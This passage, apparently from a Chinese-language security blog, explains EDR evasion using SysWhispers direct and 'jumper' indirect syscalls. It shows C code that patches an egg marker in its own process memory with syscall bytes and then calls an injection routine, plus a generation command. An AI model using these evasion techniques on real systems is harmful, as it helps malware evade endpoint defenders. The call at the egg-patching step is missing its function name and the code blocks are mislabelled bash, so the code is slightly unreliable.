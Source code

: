 ```bash
        if(DEBUG > 0){
            for (int i = 0; i < nBytesRead; i++){
                printf("%02x ", current[i]);
            }
            printf("\n");
        }

        if (memcmp(egg, current, 8) == 0)
        {
            printf("Found at %llu\n", (ULONG64)currentAddress);
            WriteProcessMemory((HANDLE)((int)-1), currentAddress, replace, 8, &nBytesRead);
        }

    }
    printf("Ended search at:   0x%llu\n", (ULONG64)startAddress + currentOffset);
    free(current);
}
```

然后是主函数中：

```bash
int main(int argc, char** argv) {

    unsigned char egg[] = { 0x77, 0x00, 0x00, 0x74, 0x77, 0x00, 0x00, 0x74 }; // w00tw00t
    unsigned char replace[] = { 0x0f, 0x05, 0x90, 0x90, 0xC3, 0x90, 0xCC, 0xCC }; // syscall; nop; nop; ret; nop; int3; int3

    //####SELF_TAMPERING####
    (egg, replace);

    Inject();
    return 0;
}
```

比较简单就不再详细解释了。  
但是这种方法还是属于直接系统调用，EDR 只要检测 RIP 的指向即可检测到异常，就有了接下来要介绍技术。

#### jumper & jumper\_randomized

先来看 jumper，使用命令`python syswhispers.py -f NtCreateThreadEx -m jumper -o jumper`来生成一个采用该技术的 demo  
看 asm 文件，可以看到先将 syscall 的地址放到 r15，再 `jump r15`实现的  